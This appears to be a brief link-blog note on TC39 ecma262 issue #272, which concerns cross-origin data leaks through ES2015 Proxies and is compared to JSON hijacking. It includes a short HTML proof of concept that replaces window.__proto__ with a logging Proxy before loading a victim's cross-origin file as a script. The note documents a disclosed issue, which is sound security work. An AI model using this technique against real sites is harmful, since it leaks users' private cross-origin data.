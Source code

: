 ```yaml
---
layout: news
title: 'How should browsers mitigate Proxy-related security issues? · Issue #272 · tc39/ecma262'
item-url: 'https://github.com/tc39/ecma262/issues/272'
date: '2015-12-26T16:28:51+00:00'
tags:
  - ECMAScript
  - Security
  - browser
related:
  - title: 'Issue 399951 - chromium - Security: Cross-origin information leak via ECMAScript harmony proxies - An open-source project to help move the web forward. - Google Project Hosting'
    url: 'https://code.google.com/p/chromium/issues/detail?id=399951'
  - title: 'CAPEC - CAPEC-111: JSON Hijacking (aka JavaScript Hijacking) (Version 2.8) ﻿'
    url: 'http://capec.mitre.org/data/definitions/111.html'
---
```

TC39 discuss about potential security issue of ES6 Proxy.

> There's a security issue on the web with ES2015 Proxies where a cross-origin request can be made to load some ECMAScript code, and this request can leak some information across origins due to the existence of Proxies. 

POC on Chrome:

```html
<script>
window.__proto__ = Proxy.create({
    get: function(target, name) {console.log("data=" + name)}
});
</script>
<script src="http://victim/test.csv"></script>
```

Firefox lock down `Object.prototype`.

This issue is similar to JSON Hijacking.

